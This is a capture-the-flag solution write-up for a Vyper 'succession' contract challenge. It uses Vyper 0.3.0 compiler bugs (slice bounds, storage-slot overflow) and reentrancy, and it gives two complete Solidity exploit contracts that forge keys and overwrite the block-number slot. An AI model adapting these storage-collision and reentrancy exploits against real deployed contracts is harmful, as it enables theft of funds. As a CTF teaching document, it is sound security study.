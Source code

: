 # neumoxx-succession - Solution

## Find the vulnerability

Looking at the contract we immediatly notice its version 0.3.0, that is one of the version responsible for the [curve hack](https://hacken.io/discover/curve-finance-liquidity-pools-hack-explained/) in July 2023.

We also notice the `@nonreentrant("sign")` decorators so we know what we can do.

But what about this check `assert msg.sender == self.siblingAddresses[MARION] or self.siblingKeys[MARION] == self._getKey(index)`? How can we pass this?

Diving deeper we found a strange array variable `restLayout: public(bytes32[115792089237316195423570985008687907853269984665640564039457584007913129639935])` and its setter and getter functions:

```python
def setKey(index: uint256, val: bytes32):
    self.restLayout[convert(msg.sender, uint256) + index] = val

def _getKey(index: uint256) -> bytes32:
    return convert(slice(slice(self.accessor, index, 64), 32, 32), bytes32)
```

If you look at 0.3.0 vulnerabilities [here](https://security.snyk.io/package/pip/vyper/0.3.0) we found interesting ones:

- https://security.snyk.io/vuln/SNYK-PYTHON-VYPER-6124761: https://github.com/vyperlang/vyper/commit/0bb7203b584e771b23536ba065a6efda457161bb
- https://security.snyk.io/vuln/SNYK-PYTHON-VYPER-6226584: https://github.com/vyperlang/vyper/security/advisories/GHSA-9x7f-gwxq-6f2c

Thanks to first one we can save our keys on 3618502788666131106986593281521497120414687020801267626233049500247285301248 slot that is read thanks to the slice pitfall.

Now there is another check to `assert self.currentBlock <= block.number` but we can exploit this with or without reentrancy.

## Exploit the contract #1 Reentrancy

Attack with reentrancy to avoid `block.number` check.

```solidity
contract ExploiterReentrancy {
    bytes32 constant MARION_KEY = 0x000000000000000000000000000000000000000000000000000000000000bbbb;
    bytes32 constant ANNA_KEY = 0x000000000000000000000000000000000000000000000000000000000000aaaa;
    uint256 immutable keyIndex;
    bool marion;
    bool anna;

    ISuccessionCTFVy successionCTF;

    constructor(address _successionCTF) {
        successionCTF = ISuccessionCTFVy(_successionCTF);
        keyIndex = 3618502788666131106986593281521497120414687020801267626233049500247285301248 - 11
            - uint256(uint160(address(this)));
    }

    function attack() external {
        // init CTF
        successionCTF.initCTF();

        // sign for HenryJunior
        successionCTF.signHenryJunior(address(this), 0);
    }

    fallback() external payable {
        if (!marion) {
            // sign for Marion
            marion = true;
            successionCTF.setKey(keyIndex, MARION_KEY);
            successionCTF.signMarion(address(this), type(uint256).max - 63);
        } else if (!anna) {
            // sign for Anna
            anna = true;
            successionCTF.setKey(keyIndex, ANNA_KEY);
            successionCTF.signAnna(address(this), type(uint256).max - 63);
        }
    }
}
```

```solidity
ExploiterReentrancy exploiter = new ExploiterReentrancy(address(successionCTF));
exploiter.attack();
```

## Exploit the contract #2 No reentrancy

Use the same trick to change the `self.currentBlock` and pass the check.

```solidity
contract ExploiterNoReentrancy {
    bytes32 constant MARION_KEY = 0x000000000000000000000000000000000000000000000000000000000000bbbb;
    bytes32 constant ANNA_KEY = 0x000000000000000000000000000000000000000000000000000000000000aaaa;
    uint256 immutable keyIndex;
    uint256 immutable blockIndex;

    ISuccessionCTFVy successionCTF;

    constructor(address _successionCTF) {
        successionCTF = ISuccessionCTFVy(_successionCTF);
        keyIndex = 3618502788666131106986593281521497120414687020801267626233049500247285301248 - 11
            - uint256(uint160(address(this)));
        blockIndex = type(uint256).max - 1 - uint256(uint160(address(this)));
    }

    function attack() external {
        // init CTF
        successionCTF.initCTF();

        // sign for HenryJunior
        successionCTF.signHenryJunior(address(this), 0);

        // sign for Marion
        successionCTF.setKey(keyIndex, MARION_KEY);
        successionCTF.setKey(blockIndex, bytes32(0));
        successionCTF.signMarion(address(this), type(uint256).max - 63);

        // sign for Anna
        successionCTF.setKey(keyIndex, ANNA_KEY);
        successionCTF.setKey(blockIndex, bytes32(0));
        successionCTF.signAnna(address(this), type(uint256).max - 63);
    }

    fallback() external payable {}
}
```

```solidity
ExploiterNoReentrancy exploiter = new ExploiterNoReentrancy(address(successionCTF));
exploiter.attack();
```
